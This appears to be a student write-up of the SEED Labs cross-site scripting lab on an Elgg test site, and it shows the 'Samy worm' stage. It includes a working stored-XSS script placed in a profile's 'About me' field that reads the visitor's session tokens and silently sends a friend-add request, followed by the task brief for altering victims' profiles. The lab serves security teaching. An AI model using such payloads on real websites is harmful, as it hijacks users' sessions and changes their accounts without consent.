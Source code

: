 
But first we need to remove `samy` from his own friends list. For that we can use a similar request, just replace `add` with `remove` in the url.

After that we modify Samy's `About me` section with the following script:

```html
<script type="text/javascript">
	window.onload = function () {
		if(elgg.session.user && elgg.session.user.guid != 59) {
			var Ajax=null;
			var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
			var token="&__elgg_token="+elgg.security.token.__elgg_token;
			//Construct the HTTP request to add Samy as a friend.

			var sendurl= 'http://www.seed-server.com/action/friends/add?friend=59' + ts +  token + ts + token

			console.log(sendurl)

			//Create and send Ajax request to add friend
			Ajax=new XMLHttpRequest();
			Ajax.open("GET",sendurl,true);
			Ajax.setRequestHeader("Host","www.seed-server.com");
			Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
			Ajax.send();
		}
	}
</script>
```

## Task 2 - Modifying the Victim’s Profile

Objective : Modify the victim’s profile when the victim visits Samy’s profile. You need to make the following modifications : 
 - Set all the field’s access levels to `Logged in Users`
 - Set your `student ID` in the `description`
 - Set all other fields with `random strings`

Lets first see how a valid request to modify the profile looks like.

![](./screenshots/2_1.png)

